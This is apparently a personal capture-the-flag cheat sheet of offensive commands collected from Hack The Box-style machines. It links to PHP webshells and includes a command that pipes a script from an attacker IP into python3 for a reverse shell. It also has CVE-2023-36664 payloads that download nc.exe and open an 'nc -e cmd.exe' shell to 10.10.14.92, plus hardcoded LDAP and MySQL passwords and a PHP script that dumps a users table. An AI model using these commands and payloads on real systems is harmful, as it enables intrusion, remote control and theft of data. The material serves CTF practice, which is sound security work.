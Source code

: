 # CTF gathered resources 

## Enum

- subdomain enum `ffuf` | `go install github.com/ffuf/ffuf/v2@latest`

## PrivEsc

```
https://gtfobins.github.io/
```
## Commands

- `sudo -l`
- `puttygen keeper.ppk -O private-openssh -o keeper.pem` PPK to PEM
- `ansible2john ansible.vaul >> hashes`

## Webshells

- PHP webshell file upload feature - https://raw.githubusercontent.com/artyuum/simple-php-web-shell/master/index.php
- PHP webshell, multiple function exploit - https://github.com/flozz/p0wny-shell

## Python Shell

```
python2 handler.py -b 10.10.14.92:8888
# Run the reverse shell
curl 10.10.14.92:8000/shell.py|python3
```
## Kali

`/usr/share/windows-binaries/nc.exe`

## Samba

```
smbclient -L \\\\authority.htb\\
smbclient  \\\\authority.htb\\Development
```

## Windows

- `evil-winrm -i 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'` SSH for windows
-  `sudo responder -I tun0` Start some service

## PHP get DB

```php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
$sql = "SELECT * FROM users";

// Execute the query
$result = mysqli_query($link, $sql);
if ($result) {
    // Check if there are rows in the result set
    if (mysqli_num_rows($result) > 0) {
        // Output data of each row
        while ($row = mysqli_fetch_assoc($result)) {
            print_r($row); // You can customize this output based on your needs
            echo "<br>";
        }
    } else {
        echo "No records found";
    }

    // Free result set
    mysqli_free_result($result);
} else {
    echo "ERROR: Could not execute $sql. " . mysqli_error($link);
}

// Close connection
mysqli_close($link);
?>
```

## RoundCube

```
python3 CVE_2023_36664_exploit.py --generate --payload "curl 10.10.14.92:8000/nc.exe -o nc.exe" --filename first --extension eps
# execute shell
python3 CVE_2023_36664_exploit.py --generate --payload "nc.exe -e cmd.exe 10.10.14.92 6666" --filename second --extension eps
```
